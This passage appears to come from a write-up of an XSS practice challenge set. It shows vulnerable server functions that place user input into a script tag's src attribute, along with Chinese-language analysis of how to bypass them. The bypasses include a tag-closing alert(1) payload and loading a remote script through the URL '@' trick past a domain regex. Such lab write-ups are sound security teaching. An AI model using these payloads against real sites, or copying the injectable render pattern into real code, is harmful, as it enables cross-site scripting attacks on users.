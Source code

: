 server code:

```
function render (input) {
  let domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${input}"></script>`
  }
  return 'Invalid URL'
}
```

Analysis:

```
正则匹配以https://www.segmentfault.com开头的输入，若无匹配返回失败；
输出正则匹配字符，闭合script标签，注释掉最后的">来绕过；
```

input code:

```
https://www.segmentfault.com"></script><script>alert(1)</script>//
```

html:

```
<script src="https://www.segmentfault.com"></script><script>alert(1)</script>//"></script>
```

## 0x0A

server code:

```
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f')
  }

  const domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${escapeHtml(input)}"></script>`
  }
  return 'Invalid URL'
}
```

Analysis:

```
同上一题的基础上加了许多过滤；
输入点在<script>标签的src属性中，可以直接引入远端js文件绕过；
alert(1)的js官方提供地址：https://xss.haozi.me/j.js
利用URL的@特性引入js，过滤后的html实体编码在html标签属性值中无影响，直接解析；
```
